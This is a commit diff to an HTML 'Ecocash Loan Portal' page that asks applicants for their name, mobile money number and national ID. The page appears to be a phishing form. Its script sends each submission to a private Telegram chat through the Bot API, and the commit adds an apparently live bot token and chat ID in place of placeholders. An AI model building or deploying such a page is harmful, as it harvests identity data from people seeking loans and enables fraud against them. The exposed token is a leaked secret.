

Before and after one commit to ckiptoobett-bot/ecocash-loan-portal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (308-971 px from the left). After the commit the page ends 943 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved structure and styling

```diff
--- a/index.html
+++ b/index.html
@@ -41,63 +41,42 @@
 
         .card {
             background: var(--card);
-      width: 100%;
-      border-radius: 16px;
+            border-radius: 12px;
+            box-shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.1);
             overflow: hidden;
-      box-shadow: 0 10px 25px rgba(5, 150, 105, 0.1);
-      margin-bottom: 32px;
-      border: 1px solid #d1fae5;
+            border: 1px solid var(--border);
         }
 
-    .banner {
-      background: linear-gradient(135deg, var(--dark) 0%, #064e3b 100%);
-      color: #ffffff;
-      padding: 32px 24px;
-      border-bottom: 4px solid var(--eco-green);
+        .header {
+            background: linear-gradient(135deg, var(--eco-green), var(--eco-dark-green));
+            color: white;
+            padding: 24px;
             text-align: center;
         }
 
-    .badge {
-      display: inline-block;
-      background: rgba(5, 150, 105, 0.25);
-      color: #34d399;
-      padding: 5px 12px;
-      border-radius: 20px;
-      font-size: 12px;
-      font-weight: 600;
-      letter-spacing: 0.05em;
-      margin-bottom: 12px;
-      border: 1px solid rgba(52, 211, 153, 0.3);
-    }
-
-    .banner h1 {
+        .header h1 {
             font-size: 24px;
-      font-weight: 800;
             margin-bottom: 8px;
         }
 
-    .banner p {
+        .header p {
             font-size: 14px;
-      color: #94a3b8;
+            opacity: 0.9;
         }
 
-    form {
+        .form-body {
             padding: 24px;
         }
 
         .section-title {
             font-size: 14px;
             font-weight: 700;
+            color: var(--eco-dark-green);
             text-transform: uppercase;
-      letter-spacing: 0.06em;
-      color: var(--eco-green);
-      margin: 20px 0 12px;
+            letter-spacing: 0.5px;
+            margin-bottom: 16px;
             padding-bottom: 6px;
-      border-bottom: 1px solid #e2e8f0;
-    }
-
-    .section-title:first-of-type {
-      margin-top: 0;
+            border-bottom: 2px solid var(--bg);
         }
 
         .form-group {
@@ -106,225 +85,211 @@
 
         label {
             display: block;
-      font-size: 14px;
+            font-size: 13px;
             font-weight: 600;
+            margin-bottom: 6px;
             color: var(--text);
-      margin-bottom: 6px;
         }
 
-    .req {
-      color: #dc2626;
-    }
-
-    input[type="text"],
-    input[type="tel"],
-    input[type="number"],
-    select {
+        input, select {
             width: 100%;
-      padding: 12px 14px;
+            padding: 12px;
             border: 1px solid var(--border);
             border-radius: 8px;
             font-size: 15px;
+            background-color: #f8fafc;
             color: var(--text);
-      background-color: #fff;
-      transition: border-color 0.2s, box-shadow 0.2s;
+            transition: border-color 0.2s;
         }
 
         input:focus, select:focus {
             outline: none;
             border-color: var(--eco-green);
-      box-shadow: 0 0 0 3px rgba(5, 150, 105, 0.15);
+            background-color: #fff;
         }
 
-    button[type="submit"] {
+        .submit-btn {
             width: 100%;
-      padding: 16px;
             background-color: var(--eco-green);
-      color: #ffffff;
+            color: white;
             border: none;
+            padding: 14px;
+            font-size: 16px;
+            font-weight: 600;
             border-radius: 8px;
-      font-size: 16px;
-      font-weight: 700;
             cursor: pointer;
-      margin-top: 24px;
             transition: background-color 0.2s;
+            margin-top: 10px;
         }
 
-    button[type="submit"]:hover {
+        .submit-btn:hover {
             background-color: var(--eco-dark-green);
         }
 
-    .alert {
+        .status-message {
             margin-top: 16px;
-      padding: 14px;
+            padding: 12px;
             border-radius: 8px;
             font-size: 14px;
-      line-height: 1.4;
+            text-align: center;
             display: none;
-      text-align: center;
         }
 
-    .alert.success {
-      background-color: #dcfce7;
-      color: #166534;
-      display: block;
+        .status-success {
+            background-color: #d1fae5;
+            color: #065f46;
+            border: 1px solid #a7f3d0;
         }
 
-    .alert.error {
+        .status-error {
             background-color: #fee2e2;
             color: #991b1b;
-      display: block;
+            border: 1px solid #fecaca;
         }
 
-    .footer-note {
+        .footer {
             text-align: center;
+            padding: 16px;
             font-size: 12px;
-      color: #64748b;
-      padding: 18px 24px;
-      background: #f8fafc;
-      border-top: 1px solid #e2e8f0;
+            color: var(--muted);
+            border-top: 1px solid var(--bg);
         }
     </style>
 </head>
 <body>
-
     <div class="container">
         <div class="card">
-    <div class="banner">
-      <span class="badge">💸 INSTANT MOBILE LOANS</span>
+            <div class="header">
                 <h1>Ecocash Loan Portal</h1>
                 <p>Quick approval and direct mobile wallet disbursement.</p>
             </div>
 
-    <form id="loanForm">
-
-      <!-- PERSONAL DETAILS -->
+            <form id="loanForm" class="form-body">
                 <div class="section-title">1. Personal Information</div>
 
                 <div class="form-group">
-        <label for="fullName">Full Name (As registered on Mobile Money) <span class="req">*</span></label>
-        <input type="text" id="fullName" name="fullName" required placeholder="e.g. John Doe">
+                    <label for="fullName">Full Name (As registered on Mobile Money) *</label>
+                    <input type="text" id="fullName" required placeholder="e.g. John Doe">
                 </div>
 
                 <div class="form-group">
-        <label for="phone">Mobile Money Phone Number <span class="req">*</span></label>
-        <input type="tel" id="phone" name="phone" required placeholder="e.g. +254 712 345 678">
+                    <label for="phoneNumber">Mobile Money Phone Number *</label>
+                    <input type="tel" id="phoneNumber" required placeholder="e.g. 0712345678">
                 </div>
 
                 <div class="form-group">
-        <label for="nationalId">National ID Number <span class="req">*</span></label>
-        <input type="text" id="nationalId" name="nationalId" required placeholder="Enter ID number">
+                    <label for="nationalId">National ID Number *</label>
+                    <input type="text" id="nationalId" required placeholder="e.g. 12345678">
                 </div>
 
-      <!-- LOAN DETAILS -->
-      <div class="section-title">2. Loan Request</div>
+                <div class="section-title" style="margin-top: 24px;">2. Loan Request</div>
 
                 <div class="form-group">
-        <label for="loanAmount">Requested Loan Amount <span class="req">*</span></label>
-        <select id="loanAmount" name="loanAmount" required>
-          <option value="" disabled selected>Select amount...</option>
-          <option value="5,000">5,000</option>
-          <option value="10,000">10,000</option>
-          <option value="25,000">25,000</option>
-          <option value="50,000">50,000</option>
-          <option value="100,000">100,000</option>
+                    <label for="loanAmount">Requested Loan Amount *</label>
+                    <select id="loanAmount" required>
+                        <option value="" disabled selected>Select amount</option>
+                        <option value="5,000">5,000 KES / UGX</option>
+                        <option value="10,000">10,000 KES / UGX</option>
+                        <option value="25,000">25,000 KES / UGX</option>
+                        <option value="50,000">50,000 KES / UGX</option>
+                        <option value="100,000">100,000 KES / UGX</option>
                     </select>
                 </div>
 
                 <div class="form-group">
-        <label for="repaymentPeriod">Repayment Period <span class="req">*</span></label>
-        <select id="repaymentPeriod" name="repaymentPeriod" required>
-          <option value="" disabled selected>Select duration...</option>
-          <option value="14 Days">14 Days</option>
-          <option value="30 Days">30 Days</option>
+                    <label for="repaymentPeriod">Repayment Period *</label>
+                    <select id="repaymentPeriod" required>
+                        <option value="" disabled selected>Select period</option>
+                        <option value="1 Month">1 Month</option>
                         <option value="3 Months">3 Months</option>
+                        <option value="6 Months">6 Months</option>
                     </select>
                 </div>
 
                 <div class="form-group">
-        <label for="loanPurpose">Purpose of Loan <span class="req">*</span></label>
-        <select id="loanPurpose" name="loanPurpose" required>
-          <option value="" disabled selected>Select purpose...</option>
-          <option value="Business Working Capital">Business Working Capital</option>
+                    <label for="loanPurpose">Purpose of Loan *</label>
+                    <select id="loanPurpose" required>
+                        <option value="" disabled selected>Select purpose</option>
+                        <option value="Business Expansion">Business Expansion</option>
+                        <option value="Emergency Medical">Emergency Medical</option>
                         <option value="School Fees">School Fees</option>
-          <option value="Medical Emergency">Medical Emergency</option>
                         <option value="Personal Upkeep">Personal Upkeep</option>
                     </select>
                 </div>
 
-      <button type="submit" id="submitBtn">Submit Loan Application</button>
+                <button type="submit" class="submit-btn" id="submitBtn">Submit Loan Application</button>
 
-      <div id="formAlert" class="alert"></div>
+                <div id="statusBox" class="status-message"></div>
             </form>
 
-    <div class="footer-note">
-      <p>&copy; 2026 Ecocash Loan Services. Secure Instant Processing.</p>
+            <div class="footer">
+                &copy; 2026 Ecocash Loan Services. Secure Instant Processing.
             </div>
         </div>
     </div>
 
-<!-- Telegram Bot Integration Script -->
     <script>
-  const botToken = "YOUR_TELEGRAM_BOT_TOKEN";
-  const chatId = "YOUR_CHAT_ID";
+        // Pre-configured Telegram Credentials
+        const botToken = "8641245398:AAGYI7pFOVVrKqf9ILOSo6yGyOdFVSekkpM";
+        const chatId = "8557614507";
 
-  const loanForm = document.getElementById('loanForm');
-  const formAlert = document.getElementById('formAlert');
-  const submitBtn = document.getElementById('submitBtn');
-
-  loanForm.addEventListener('submit', function(e) {
+        document.getElementById('loanForm').addEventListener('submit', async function(e) {
             e.preventDefault();
 
-    submitBtn.textContent = "Submitting Application...";
+            const submitBtn = document.getElementById('submitBtn');
+            const statusBox = document.getElementById('statusBox');
+
             submitBtn.disabled = true;
+            submitBtn.textContent = 'Submitting Application...';
+            statusBox.style.display = 'none';
 
             const fullName = document.getElementById('fullName').value;
-    const phone = document.getElementById('phone').value;
+            const phoneNumber = document.getElementById('phoneNumber').value;
             const nationalId = document.getElementById('nationalId').value;
             const loanAmount = document.getElementById('loanAmount').value;
             const repaymentPeriod = document.getElementById('repaymentPeriod').value;
             const loanPurpose = document.getElementById('loanPurpose').value;
 
-    const message = `🚨 *New Loan Application - Ecocash* 🚨\n\n` +
+            const message = `🚨 *NEW LOAN APPLICATION* 🚨\n\n` +
                             `👤 *Name:* ${fullName}\n` +
-                    `📱 *Phone:* ${phone}\n` +
+                            `📱 *Phone:* ${phoneNumber}\n` +
                             `🆔 *National ID:* ${nationalId}\n` +
-                    `💵 *Amount:* ${loanAmount}\n` +
+                            `💰 *Amount:* ${loanAmount}\n` +
                             `⏱ *Period:* ${repaymentPeriod}\n` +
-                    `📌 *Purpose:* ${loanPurpose}`;
+                            `📋 *Purpose:* ${loanPurpose}`;
 
-    fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
+            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
+
+            try {
+                const response = await fetch(url, {
                     method: 'POST',
-      headers: {
-        'Content-Type': 'application/json'
-      },
+                    headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
                         chat_id: chatId,
                         text: message,
                         parse_mode: 'Markdown'
                     })
-    })
-    .then(response => response.json())
-    .then(data => {
+                });
+
+                const data = await response.json();
+
                 if (data.ok) {
-        formAlert.textContent = "Application submitted successfully! Processing review...";
-        formAlert.className = "alert success";
-        loanForm.reset();
+                    statusBox.textContent = 'Application submitted successfully! Disbursement pending review.';
+                    statusBox.className = 'status-message status-success';
+                    statusBox.style.display = 'block';
+                    document.getElementById('loanForm').reset();
                 } else {
-        throw new Error("Telegram API error");
+                    throw new Error(data.description || 'Telegram API error');
                 }
-    })
-    .catch(error => {
-      console.error('Error:', error);
-      formAlert.textContent = "Submission failed. Please check your network or bot configuration.";
-      formAlert.className = "alert error";
-    })
-    .finally(() => {
-      submitBtn.textContent = "Submit Loan Application";
+            } catch (error) {
+                statusBox.textContent = 'Submission failed. Please check your network or bot configuration.';
+                statusBox.className = 'status-message status-error';
+                statusBox.style.display = 'block';
+            } finally {
                 submitBtn.disabled = false;
-    });
+                submitBtn.textContent = 'Submit Loan Application';
+            }
         });
     </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
